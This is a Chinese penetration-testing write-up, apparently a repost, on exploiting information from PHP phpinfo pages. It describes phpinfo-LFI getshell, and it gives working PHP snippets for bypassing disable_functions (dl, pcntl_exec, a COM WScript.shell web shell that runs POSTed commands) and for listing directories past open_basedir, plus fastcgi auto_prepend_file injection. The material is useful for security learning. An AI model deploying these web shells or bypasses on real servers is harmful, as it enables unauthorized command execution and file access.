







干货技巧 | phpinfo信息利用
Phpinfo页面利用
system

获取具体版本，可以用来提权
extension_dir

php扩展的路径，图省事没用lamp包有点捞…(这里还是说下linux不推荐用phpstudy，很多linux装了phpstudy系统会崩)
http_x_real_ip
直接获取真实ip，无视代理、cdn。本地环境并没有发现这个参数，应该是ini配置问题。顺便说下HTTP_X_FORWARDED_FOR的区别，HTTP_X_FORWARDED_FOR会记录代理过程且可伪造
Web根目录
找不到路径，报错/找phpinfo常规操作了。
临时文件
phpinfo-lfi getshell 很老的洞了，看到学习下
像phpinfo页面post数据可以在_FILES[“file1”]中看到上传的临时文件，先构造简单上传页面。

其中PHP引擎对enctype=”multipart/form-data”这种请求的处理过程如下：
1、请求到达
2、创建临时文件，并写入上传文件的内容
3、调用相应PHP脚本进行处理，如校验名称、大小等
4、删除临时文件

这里可以看到，临时文件可以成功写入，配合lfi即可getshell，不过临时文件很块就会被删除，利用分块传输竞争时间绕过
https://www.insomniasec.com/downloads/publications/phpinfolfi.py
利用脚本，不过我本地测试失败了
这里说下这个漏洞感觉还是比较鸡肋(条件有点苛刻)
1、phpinfo
2、开启了文件缓存
3、没有gpc等函数限制
4、开启lfi，有包含点
allow_url_include
文件包含有多重要自不必多说。
asp_tags
php标签有四种格式，这个是asp风格的，默认不开启。可以上传.haccess/user.ini 绕过(php7移除)
disable_functions
禁用函数列表：
(dl)
exec
system
passthru
popen
proc_open
pcntl_exec
shell_exec
绕过方式:
1、记得Seay代码审计里说过dl()函数(需要enable_dl开启)
<?php
//PHP5调用方法
dl('../../../../../home/apache/htdocs/php5.so');
spiderbiguan('uname -a');//调用函数
?>
2、编译php时如果加了-–enable-pcntl选项，就可以使用pcntl_exec()来执行命令。PHP>4.2.0
<?php pcntl_exec(“/bin/bash”, array(“/tmp/b4dboy.sh”));?>
#/tmp/b4dboy.sh
#!/bin/bash
ls -l /
3、利用ImageMagick漏洞绕过disable_function(应该是要组件与扩展都有具体没测试)
https://www.waitalone.cn/imagemagic-bypass-disable_function.html
4、利用环境变量LD_PRELOAD来绕过
http://www.vuln.cn/6784的确是一种好方法，利用起来也没有那么繁琐。
5、win系统组件
<?php
$command=$_POST[a];
$wsh = new COM('WScript.shell'); // 生成一个COM对象
$exec = $wsh->exec('cmd.exe /c '.$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput
?>
magic_quotes_gpc
魔术引号，它是用来实现addslshes()和stripslashes()这两个功能的，对SQL注入进行防御。顺便提一嘴用了addslshes()除非是有编码问题要不然是不存在注入的。
open_basedir
将用户可操作的文件限制在某目录下

绕过方式：
linux下绕过：
https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html
(大佬博客我这里也复现下)
1、利用DirectoryIterator + Glob 直接列举目录(linux)
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
echo "{$f}<br/>";
}
?>
2、realpath列举目录
利用realpath对传入路径的回显不同加上通配符进行列举。本地环境linux就没有进行测试。
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) {
$file = $dir . $chars[$i] . '<><';
realpath($file);
}
function isexists($errno, $errstr)
{
$regexp = '/File\((.*)\) is not within/';
preg_match($regexp, $errstr, $matches);
if (isset($matches[1])) {
printf("%s <br/>", $matches[1]);
}
}
?>
首先设置open_basedir为当前目录，并枚举d:/test/目录下的所有文件。将错误处理交给isexists函数，在isexists函数中匹配出目录名称，并打印出来。
3、SplFileInfo::getRealPath列举目录
不需要考虑open_basedir开不开起。
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) {
$info = new SplFileInfo($basedir . $chars[$i] . '<><');
$re = $info->getRealPath();
if ($re) {
dump($re);
}
}
function dump($s){
echo $s . '<br/>';
ob_flush();
flush();
}
?>
还有GD库imageftbbox/imagefttext列举目录bindtextdomain暴力猜解目录，基本也都是要暴力破解，效率比较低。还有这篇文章php5全版本绕过open_basedir读文件脚本给跪了
https://www.leavesongs.com/bypass-open-basedir-readfile.html
扩展
imagick
这个的远程执行
libxml
libxml 2.9以前的版本默认支持并开启了外部实体的引用，服务端解析用户提交的 xml 文件时未对 xml 文件引用的外部实体（含外部普通实体和外部参数实体）做合适的处理，会导致XXE。
memcache
Memcache未授权访问漏洞利用及修复：
http://blog.nsfocus.net/memcache-unauthorized-access-exploit/

redis
这个不多说了……
session
xdebug
GOPHER
利用 Gopher 协议拓展攻击面：
https://blog.chaitin.cn/gopher-attack-surfaces/
看了下尝试复现没有成功，我的理解是首先要支持gopher协议，然后找到一个能执行curl会话的参数，构造gopher格式的payload以post格式去执行反弹shell。(并没有看懂是怎么利用的)
fastcgi
https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html#php-fpmfastcgi
通过fastcgi传入环境变量，设置
'PHP_VALUE': 'auto_prepend_file =php://input',
'PHP_ADMIN_VALUE': 'allow_url_include = On'
将执行的代码放在body中执行任意代码。
总结
从刚接触安全的时候就知道phpinfo里有很重要的信息，然而就在前几天我还直接提了个信息泄露(还撞了，丢脸),复现完真的学到很多。
参考链接：
https://www.freebuf.com/articles/web/79830.html
http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0151653.html
https://bbs.ichunqiu.com/thread-3234-1-1.html
原文地址
http://zeroyu.xyz/2018/11/13/what-phpinfo-can-tell-we/

作者：Phyb0x，zeroyu
参考来源：Phyb0x's blog&zeroyu‘s blog
如有侵权，请联系删除